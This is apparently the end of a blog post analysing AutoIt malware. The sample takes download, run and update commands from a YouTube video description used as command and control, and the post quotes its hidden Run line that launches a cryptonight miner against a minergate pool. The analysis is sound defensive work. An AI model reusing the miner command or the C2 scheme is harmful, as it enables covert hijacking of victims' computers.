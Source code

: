 ```au3
        ; delete logic
    ElseIf StringRegExp($out, "_update", 0) = 1 Then
        ; update logic
```

It uses a [YouTube video](https://www.youtube.com/watch?v=RmCcqoC-Oms) (reported, but please report again) as a command and control mechanism. If the description contains one of the `_download`, `_run`, etc. command it will perform certain actions based on the data in the description (such as downloading a file or updating to a newer version).

It also appears to run some kind of crypto currency miner, although I couldn't find the `SystemCheck` executable:

```
Run("SystemCheck.exe -a cryptonight -o stratum+tcp://xmr.pool.minergate.com:45560 -u bsipt8qbutj6@list.ru -p x " & $threads, "", @SW_HIDE)
```

Well, that has been all for today. It has certainly been fun reversing malware for a change!